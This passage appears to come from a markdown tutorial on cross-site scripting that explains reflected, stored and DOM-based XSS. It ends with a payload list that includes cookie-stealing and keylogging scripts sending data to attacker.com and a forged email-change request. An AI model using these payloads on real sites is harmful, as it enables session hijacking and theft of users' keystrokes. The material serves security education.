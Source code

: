 **Example Attack:**
```http
http://vulnerable-site.com/search?q=<script>alert('XSS')</script>
```

### 2. Stored XSS
**How it works:** Malicious script is stored on the server and executed when accessed
- **Attack vector:** Comments, user profiles, forum posts, databases
- **Impact:** Affects all users, persistent threat

<img width="577" height="802" alt="image" src="https://github.com/user-attachments/assets/0df0bbf6-b19d-4123-8901-fae1f781ef78" />
<img width="958" height="893" alt="image" src="https://github.com/user-attachments/assets/9b3d3f35-1c5b-4d02-bb22-0d7fbba6321b" />

**Example Attack:**
```html
<!-- Malicious comment stored in database -->
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie)
</script>
```

### 3. DOM-based XSS
**How it works:** Vulnerability exists in client-side code manipulating the DOM
- **Attack vector:** URL fragments, client-side JavaScript
- **Impact:** Client-side only, no server interaction needed

<img width="958" height="893" alt="image" src="https://github.com/user-attachments/assets/b22d543e-1951-46c6-b4f5-5c2de651d5f1" />
<img width="958" height="893" alt="image" src="https://github.com/user-attachments/assets/6fc06e56-66d5-4fc4-8cb0-030b1f308742" />

**Example Attack:**
```javascript
// Vulnerable code
document.getElementById('output').innerHTML = window.location.hash.substring(1);
// Attack: http://site.com#<img src=x onerror=stealCookies()>
```

## 🛠️ Common XSS Payloads

### Basic Test Payloads
```html
<script>alert('XSS')</script>
<img src=x onerror=alert(1)>
<svg onload=alert(document.domain)>
```

### Advanced Attack Payloads
```html
<!-- Cookie theft -->
<script>fetch('http://attacker.com/?c='+document.cookie)</script>

<!-- Keylogger -->
<script>document.onkeypress=function(e){fetch('http://attacker.com/?k='+e.key)}</script>

<!-- CSRF attack -->
<script>
fetch('/change-email', {
  method: 'POST',
  body: 'email=attacker@evil.com'
})
</script>
```

---